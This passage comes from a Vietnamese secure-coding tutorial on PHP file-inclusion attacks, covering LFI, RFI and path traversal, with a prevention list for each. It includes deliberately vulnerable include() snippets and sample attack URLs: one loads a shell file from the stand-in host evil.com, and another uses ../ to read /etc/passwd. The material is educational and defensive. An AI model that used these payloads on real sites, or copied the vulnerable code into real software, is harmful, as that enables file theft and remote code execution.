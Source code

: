 Nếu máy chủ không kiểm soát, hacker có thể đọc file hệ thống như `/etc/passwd` (Linux) hoặc `C:\windows\win.ini` (Windows).

🔹 **Cách phòng tránh**:  
✔️ Không sử dụng `include()` hoặc `require()` với dữ liệu từ người dùng.  
✔️ Giới hạn danh sách tệp có thể tải bằng whitelist.  
✔️ Kiểm tra và lọc đầu vào (`basename()`, `realpath()`).

### 1.3 **RFI (Remote File Inclusion – Bao gồm tệp từ xa)**

RFI xảy ra khi ứng dụng web cho phép tải tệp từ máy chủ bên ngoài, giúp hacker thực thi mã độc từ một máy chủ khác.

🔹 **Ví dụ tấn công**:
```js
<?php
    $file = $_GET['page'];
    include($file);
?>
```

URL tấn công:
```js
http://example.com/index.php?page=http://evil.com/shell.txt
```

Nếu máy chủ không kiểm tra đầu vào, nó có thể tải và thực thi mã độc từ `evil.com`.

🔹 **Cách phòng tránh**:  
✔️ Không cho phép URL bên ngoài trong `include()`.  
✔️ Sử dụng `allow_url_include = Off` trong `php.ini`.  
✔️ Kiểm tra và lọc đầu vào để ngăn chặn URL độc hại.

### 1.4 **Path Traversal (Điều hướng đường dẫn tệp)**

Path Traversal cho phép hacker truy cập vào các tệp nhạy cảm bằng cách sử dụng ký tự `../` để đi ngược lại thư mục gốc.

🔹 **Ví dụ tấn công**:
```js
<?php
    $file = $_GET['file'];
    include("uploads/" . $file);
?>
```

URL tấn công:
```js
http://example.com/index.php?file=../../../../etc/passwd
```

Nếu không có kiểm soát, hacker có thể truy cập và đọc tệp hệ thống.

🔹 **Cách phòng tránh**:  
✔️ Không cho phép ký tự `../` trong đầu vào.  
✔️ Sử dụng `realpath()` để kiểm tra đường dẫn hợp lệ.  
✔️ Giới hạn đường dẫn chỉ trong thư mục tải lên.
